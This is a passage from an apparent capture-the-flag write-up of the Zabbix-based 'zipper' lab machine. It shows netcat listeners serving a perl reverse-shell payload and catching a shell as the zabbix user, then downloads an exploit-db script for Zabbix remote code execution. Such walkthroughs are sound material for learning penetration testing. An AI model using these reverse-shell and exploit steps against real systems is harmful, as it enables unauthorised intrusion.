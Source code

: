 
In the second window the shell connects, and immediately gets the perl reverse
shell string:

    
    
    root@kali# cat perl.shell | nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.108.
    Ncat: Connection from 10.10.10.108:47448.
    /bin/sh: 0: can't access tty; job control turned off
    root@kali#
    

Now the third window has stable shell:

    
    
    root@kali# nc -lvnp 445
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::445
    Ncat: Listening on 0.0.0.0:445
    Ncat: Connection from 10.10.10.108.
    Ncat: Connection from 10.10.10.108:35842.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
    $ hostname
    zipper
    

### Path 2 - Zabbix to Zabbix Agent

#### RCE on Zabbix

The next two paths start with RCE on the Zabbix host (container). For this
one, I’ll show the Exploit-Db script. For the next one, I’ll use the API.

I’ll grab the script:

    
    
    root@kali# wget https://www.exploit-db.com/raw/39937 -O 39937.py
    --2019-02-20 14:55:28--  https://www.exploit-db.com/raw/39937
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 1712 (1.7K) [text/plain]
    Saving to: ‘39937’
    
    39937                                                  100%[============================================================================================================================>]   1.67K  --.-KB/s    in 0.001s  
    
    2019-02-20 14:55:28 (1.36 MB/s) - ‘39937.py’ saved [1712/1712]
    
